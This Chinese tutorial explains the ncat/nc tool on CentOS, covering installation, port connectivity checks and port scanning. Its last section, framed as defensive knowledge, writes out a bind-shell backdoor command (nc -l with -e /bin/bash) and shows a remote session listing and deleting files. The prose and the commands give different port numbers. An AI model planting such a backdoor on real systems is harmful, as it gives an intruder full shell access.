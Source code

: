 ## 介绍

`ncat` 或者说 `nc` 是一款功能类似 `cat` 的工具，但是是用于网络的。它是一款拥有多种功能的 CLI 工具，可以用来在网络上读、写以及重定向数据。 它被设计成可以被脚本或其他程序调用的可靠的后端工具。同时由于它能创建任意所需的连接，因此也是一个很好的网络调试工具。 

 `ncat`/`nc` 既是一个端口扫描工具，也是一款安全工具，还能是一款监测工具，甚至可以做为一个简单的 TCP 代理。 

## 安装

```shell
# yum install -y nmap-ncat
```

注意：CentOS 7 和 CentOS 6 系统安装的程序版本不同，有些功能也有区别，CentOS 7 使用不方便的就是批量端口扫描没有 CentOS 6 容易。

## 常用方式

### 测试某个端口是否联通

### CentOS 7

```shell
# nc -vzn 192.168.24.112 80
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.24.112:80.
Ncat: 0 bytes sent, 0 bytes received in 0.02 seconds.
```

* -z 参数告诉netcat使用0 IO,连接成功后立即关闭连接， 不进行数据交换
* -v 参数指使用冗余选项
* -n 参数告诉netcat 不要使用DNS反向查询IP地址的域名 

```shell
# nc -nzv 192.168.23.55 81 -w 2
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connection timed out.
```

*  -w<超时秒数> 设置等待连线的时间。

#### CentOS 6

```shell
# nc -nzv 192.168.23.55 80 -w 2
Connection to 192.168.23.55 80 port [tcp/*] succeeded!
```

### 端口扫描

#### CentOS 7

这里建议使用 nmp 进行多个端口扫描：

```shell
# nmap -n  192.168.23.55 -p 80-85

Starting Nmap 6.40 ( http://nmap.org ) at 2020-04-28 11:07 CST
Nmap scan report for 192.168.23.55
Host is up (0.0017s latency).
PORT   STATE    SERVICE
80/tcp open     http
81/tcp filtered hosts2-ns
82/tcp filtered xfer
83/tcp filtered mit-ml-dev
84/tcp filtered ctf
85/tcp filtered mit-ml-dev

Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds
```

#### CentOS 6

```shell
# nc -nzv 192.168.23.55 80-85
Connection to 192.168.23.55 80 port [tcp/*] succeeded!
nc: connect to 192.168.23.55 port 81 (tcp) failed: Connection refused
nc: connect to 192.168.23.55 port 82 (tcp) failed: Connection refused
nc: connect to 192.168.23.55 port 83 (tcp) failed: Connection refused
nc: connect to 192.168.23.55 port 84 (tcp) failed: Connection refused
nc: connect to 192.168.23.55 port 85 (tcp) failed: Connection refused
```

### 连接 UDP 端口

 默认情况下，`nc` 创建连接时只会连接 TCP 端口。 不过我们可以使用 `-u` 选项来连接到 UDP 端口。

### 通过 nc 创建后门

 `nc` 命令还可以用来在系统中创建后门，并且这种技术也确实被黑客大量使用。 为了保护我们的系统，我们需要知道它是怎么做的。 创建后门的命令为： 

```shell
# nc -l 10086 -e /bin/bash
```

 `-e` 标志将一个 bash 与端口 10000 相连。现在客户端只要连接到服务器上的 10000 端口就能通过 bash 获取我们系统的完整访问权限： 

```shell
# nc  192.168.23.55 10086
ls
anaconda-ks.cfg
stream.tar.gz
rm -f stream.tar.gz
ls
anaconda-ks.cfg
```